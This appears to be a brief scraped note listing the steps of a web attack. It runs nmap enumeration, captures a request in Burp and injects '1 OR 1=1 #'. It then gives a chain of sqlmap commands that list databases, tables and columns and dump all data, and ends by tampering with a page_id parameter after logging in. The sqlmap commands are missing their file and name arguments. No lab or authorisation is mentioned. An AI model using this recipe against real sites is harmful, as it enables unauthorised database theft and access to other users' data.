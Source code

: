 1. nmap -sV --script=http-enum [target domain or IP address]

2. Find any input parameter on website and capture the request in burp and then use it to perform sql injection using sqlmap.

3. Now open the burp and check the input parameters and intercept on then type some as “1 OR ANY TEXT” you get some value on burp copy that and create the txt file.(1 OR 1=1 #)

4. sqlmap -r --dbs

5. sqlmap -r -D --tables

6. sqlmap -r -D -T --columns

7. sqlmap -r -D -T --dump-all

8. then login and do the url parameter change page_id
